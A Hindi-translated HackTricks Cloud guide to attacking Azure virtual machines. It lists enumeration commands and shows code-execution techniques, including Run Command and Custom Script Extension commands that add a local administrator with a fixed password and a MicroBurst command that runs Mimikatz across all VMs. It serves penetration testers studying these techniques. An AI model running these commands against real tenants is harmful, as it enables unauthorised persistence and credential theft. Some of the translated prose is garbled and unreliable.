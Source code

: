 # Az - वर्चुअल मशीन और नेटवर्क

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## मूल जानकारी

[दस्तावेज़ से:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) एज़्यूर वर्चुअल मशीन एज़्यूर द्वारा पेश किए जाने वाले कई प्रकार के [ऑन-डिमांड, स्केलेबल कंप्यूटिंग संसाधनों](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) में से एक हैं। सामान्यत: आप एक वर्चुअल मशीन का चयन करते हैं जब आपको अन्य विकल्पों से अधिक नियंत्रण चाहिए होता है। इस लेख में आपको यह जानकारी दी जाती है कि आपको एक वर्चुअल मशीन बनाने से पहले क्या विचार करना चाहिए, आप इसे कैसे बनाते हैं, और आप इसे कैसे प्रबंधित करते हैं।

## एज़्यूर नेटवर्क जानकारी

एज़्यूर नेटवर्क में **विभिन्न एंटिटियाँ और इसे कॉन्फ़िगर करने के तरीके होते हैं।** आप विभिन्न एज़्यूर नेटवर्क एंटिटियों के संक्षिप्त **विवरण,** **उदाहरण** और **गणना** कमांड्स यहाँ पा सकते हैं:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## एज़्यूर बास्टियन

**एज़्यूर बास्टियन** एक सुरक्षित, पूरी तरह से प्रबंधित RDP (रिमोट डेस्कटॉप प्रोटोकॉल) और SSH (सुरक्षित शैली) एक्सेस समाधान प्रदान करता है जो एज़्यूर पोर्टल के माध्यम से SSL के माध्यम से होता है। यह एक एज़्यूर वर्चुअल नेटवर्क के भीतर एकीकृत है, जिससे RDP और SSH कनेक्टिविटी को वीएम का उपयोग करके निजी आईपी का उपयोग करके किया जा सकता है, जो वीएम एक्सेस के लिए सार्वजनिक आईपी की आवश्यकता को दूर करता है। यह एक सुरक्षित, अधिक सुविधाजनक विकल्प है जो पारंपरिक तरीकों के विपरीत है जो वीएम एक्सेस के लिए सार्वजनिक आईपी का निर्धारण और NSG नियम कॉन्फ़िगरेशन की आवश्यकता को दूर करता है। डेवलपर्स और आईटी कर्मचारी अपने वेब ब्राउज़र का उपयोग करके एज़्यूर पोर्टल से वीएम्स तक सुरक्षित रूप से पहुंच सकते हैं, जो विकास और परीक्षण परिवेश के लिए प्रक्रिया को सुगम बनाता है।

अपने सब्सक्रिप्शन में सभी एज़्यूर बास्टियन होस्ट को सूचीत करने के लिए, आप निम्नलिखित कमांड का उपयोग कर सकते हैं:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM जांच
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **वीएम में कमांड चलाएं**

### **वीएम में AAD लॉगिन**

यह संभव है कि AzureAD के माध्यम से प्रमाणित उपयोगकर्ताओं को एक्सेस देने की अनुमति हो। उदाहरण के लिए एक **लिनक्स वीएम** तक पहुंचने की कोशिश कर रहे हैं: `ssh username@azure-corp.com@1.1.1.1` (लॉगिन करने की कोशिश करते समय उपयोग किए गए एज़रकॉर्प के ईमेल का उपयोग करना महत्वपूर्ण है) तो आपको एक त्रुटि मिल सकती है:
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

केवल **उन निर्देशों का पालन करें** जो [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) पर जाकर कोड को दर्ज करें, ईमेल और पासवर्ड का उपयोग करें और आप SSH के माध्यम से कनेक्ट कर सकेंगे (यदि उस उपयोगकर्ता के पास इसे करने के लिए पर्याप्त अनुमति है: `Virtual Machine Administrator Login` या `Virtual Machine User Login` भूमिका).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **अपनी कस्टम स्क्रिप्ट एक्सटेंशन चलाएं**

आज़्यूर वर्चुअल मशीन (VM) एक्सटेंशन **छोटे एप्लिकेशन** होते हैं जो **आज़्यूर VMs** पर **पोस्ट-डिप्लॉयमेंट कॉन्फ़िगरेशन** और **ऑटोमेशन कार्य** प्रदान करते हैं। उदाहरण के लिए, अगर किसी वर्चुअल मशीन को सॉफ़्टवेयर स्थापना, एंटीवायरस सुरक्षा, या उसके अंदर स्क्रिप्ट चलाने की क्षमता की आवश्यकता होती है, तो आप एक VM एक्सटेंशन का उपयोग कर सकते हैं।

इसलिए, अगर आपके पास इसे लिखने का अधिकार है, तो आप विचारात्मक कोड को निषेध कर सकते हैं:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### वांछितकॉन्फ़िगरेशनस्थिति (DSC)

वांछितकॉन्फ़िगरेशनस्थिति (DSC) एक PowerShell टूल है जो Ansible के समान है, जिसका उपयोग कोड के माध्यम से होस्ट को सेटअप करने के लिए किया जाता है। DSC Azure के साथ एकीकृत होता है, जो विशिष्ट कॉन्फ़िगरेशन फ़ाइलों को अपलोड करने की अनुमति देता है। इन फ़ाइलों को कड़ा वाक्यरचना का पालन करना चाहिए। विशेष रूप से, Azure में DSC एक्सटेंशन उन फ़ाइलों से कमांड्स को निष्पादित कर सकता है जो कुछ फ़ॉर्मेटिंग मानदंडों को पूरा करती हैं, भले ही वाक्यरचना DSC मानकों के लिए सही न हो।

इन कमांड्स को निष्पादित करने की सुविधा [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) फ़ंक्शन द्वारा Az PowerShell में प्रदान की जाती है। आवश्यकताएँ एक **.PS1** फ़ाइल शामिल हैं जिसमें एक परिभाषित फ़ंक्शन हो और फ़ाइल को एक **.zip** फ़ाइल में ज़िप किया जाना चाहिए। हालांकि, वाक्यरचना DSC के लिए सही न हो, कोड फिर भी निष्पादित होगा। हालांकि, एक्सटेंशन निष्पादन स्थिति को "विफलता" के रूप में चिह्नित करेगा, और कमांड से कोई आउटपुट दिखाई नहीं देगा क्योंकि स्थिति विफलता संदेश द्वारा अधिलिखित हो जाएगी।

### VM एप्लिकेशन परिभाषाएँ

VM एप्लिकेशन परिभाषाएँ एक Azure VM पर संस्करणित एप्लिकेशन का दोहरावपूर्ण डिप्लॉयमेंट संभावित बनाती हैं। यह संसाधन VMs पर एप्लिकेशनों का डिप्लॉयमेंट और अपडेट समर्थन करता है। इसे सेटअप करने के लिए कई कदम आवश्यक हैं, जिसमें **`New-AzGalleryApplication`** और **`New-AzGalleryApplicationVersion`** जैसे कमांड्स शामिल हैं Az PowerShell में।

इस विधि के माध्यम से एप्लिकेशन या कमांड को निष्पादित करने में **"VMAppExtension"** शामिल है, जो एक एप्लिकेशन को VM पर लागू किया जाता है तो स्वचालित रूप से स्थापित होता है। एक्सटेंशन निर्दिष्ट URI से फ़ाइल को पुनः प्राप्त करता है और इसे एप्लिकेशन के रूप में नामित करता है, बिना किसी एक्सटेंशन के। फ़ाइल को सही ढंग से निष्पादित करने के लिए, REST API कॉल में "ManageActions" फ़ील्ड को उचित एक्सटेंशन के साथ फ़ाइल का नाम बदलने के लिए कॉन्फ़िगर किया जाना चाहिए। इस विधि की सेटअप, एक बार पूर्ण होने पर, प्रदान की गई चित्र में दिखाई देगी।

हालांकि, इस निष्पादन विधि में थोड़ी धीमी गति है, एक एप्लिकेशन या कमांड को निष्पादित करने में लगभग 3-4 मिनट का समय लेती है। इस प्रक्रिया से संबंधित फ़ाइलें विशेष निर्देशिकाओं में संग्रहीत होती हैं (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` एप्लिकेशन कॉपी के लिए और `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` निष्पादन स्थिति के लिए)।

दोनों तकनीक विशेष रूप से अद्वितीय तरीकों से कमांड्स को निष्पादित करने और एप्लिकेशनों का डिप्लॉय करने के लिए अद्वितीय तरीके प्रदान करते हैं, प्रत्येक के अपने आवश्यकताएँ, कदम और विचारों के साथ।

### एज़्यूर में हाइब्रिड वर्कर ग्रुप्स (HWGs)

[**हाइब्रिड वर्कर ग्रुप्स (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) एक विशेषता है जो एज़्यूर में है जो रनबुक्स को एक्ज़िक्यूट करने की अनुमति देती है, जो एक ऑटोमेशन अकाउंट में कॉन्फ़िगर किए गए होते हैं, एक एज़्यूर वर्चुअल मशीन (VM) पर जो निर्धारित HWG का हिस्सा है। यह निष्पादन एक एक्सटेंशन द्वारा सुविधित है जो VM पर स्थापित होता है, जो रनबुक कोड को VM पर डिप्लॉय करता है। इस प्रक्रिया का एक महत्वपूर्ण पहलू यह है कि वास्तविक क्रेडेंशियल्स निष्पादन में एक कारक नहीं है क्योंकि कोड उच्च विशेषाधिकारों के साथ चलता है, विशेष रूप से **SYSTEM** या root के रूप में, जैसा कि प्रदान की गई चित्र में दिखाया गया है।

विंडोज 10 VMs का उपयोग करने वालों के लिए एक महत्वपूर्ण विवरण है कि रनबुक के लिए PowerShell संस्करण को निर्दिष्ट करने की आवश्यकता है। यह PowerShell संस्करण 7.1 की बजाय 5.1 के रूप में चलाया जाना चाहिए। यह आवश्यकता इस बात से उत्पन्न होती है कि इन VMs पर PowerShell 7.1 डिफ़ॉल्ट रूप से स्थापित नहीं है, जिससे अगर संस्करण 7.1 निर्दिष्ट किया गया है तो स्क्रिप्ट निष्पादन में विफलता हो सकती है।

यह एज़्यूर की एक विशेषता है जो हाइब्रिड वातावरणों पर कार्यों को स्वचालित और प्रबंधित करने के लिए एक मजबूत विधि प्रदान करती है, जो एज़्यूर VMs पर कार्यों को केंद्रीकृत प्रबंधन और निष्पादन की अनुमति देती है।


## संदर्भ

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
